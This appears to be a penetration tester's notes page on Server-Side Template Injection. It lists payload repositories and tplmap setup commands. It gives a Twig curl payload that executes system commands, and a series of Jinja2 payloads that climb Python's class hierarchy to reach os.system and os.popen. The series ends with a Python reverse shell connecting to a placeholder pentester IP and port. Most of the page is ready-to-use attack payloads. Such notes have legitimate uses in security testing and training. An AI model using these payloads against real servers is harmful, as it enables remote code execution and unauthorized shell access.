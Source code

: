  Server-Side Template Injection (SSTI) is essentially injecting malicious template directives inside a template, leveraging Template Engines that insecurely mix user input with a given template.


# SSTI  Payloads
https://github.com/payloadbox/ssti-payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
# SSTI Tools
https://github.com/epinna/tplmap
https://github.com/vladko312/SSTImap

```
$ git clone https://github.com/epinna/tplmap.git
$ cd tplmap
$ pip install virtualenv
$ virtualenv -p python2 venv
$ source venv/bin/activate
$ pip install -r requirements.txt
$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john


OR CURL

$ curl -X POST -d 'name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}' http://<TARGET IP>:<PORT>


$ curl -gs
```
![](Attachments/Pasted%20image%2020230808110853.png)

## Python primer for SSTI
https://www.fatalerrors.org/a/0dhx1Dk.html


Below is a small dictionary from fatalerrors.org to refer to when going over the Jinja2 payload development part of this section:

|No.|	Methods	|Description
|-|-|-|
|1.|	__class__	|Returns the object (class) to which the type belongs
|2.	| __mro__|	Returns a tuple containing the base class inherited by the object. Methods are parsed in the order of tuples.
|3.|	__subclasses__ |	Each new class retains references to subclasses, and this method returns a list of references that are still available in the class
| 4.	| __builtins__	| Returns the builtin methods included in a function
|5.|	__globals__	 | A reference to a dictionary that contains global variables for a function
| 6. |	__base__ |	Returns the base class inherited by the object <-- (__ base__ and __ mro__ are used to find the base class)
|7. |	__init__ |	Class initialization method



Create a string object and use type and __class__, as follows. Then use the dir() command to show all methods and attributes from the object.

```
{{ ''.__class__ }}

{{ ''.__class__.__mro__ }}

{{ ''.__class__.__mro__[1] }}

{{ ''.__class__.__mro__[1].__subclasses__() }}


# Search for catch_warning
{% for i in range(450) %} 
{{ i }}
{{ ''.__class__.__mro__[1].__subclasses__()[i].__name__ }} 
{% endfor %}



{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system("touch /tmp/test1") }}


{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('ls /tmp').read()}}


{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}



{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('python -c \'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<PENTESTER_IP>",<PENTESTER_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'').read()}}


```
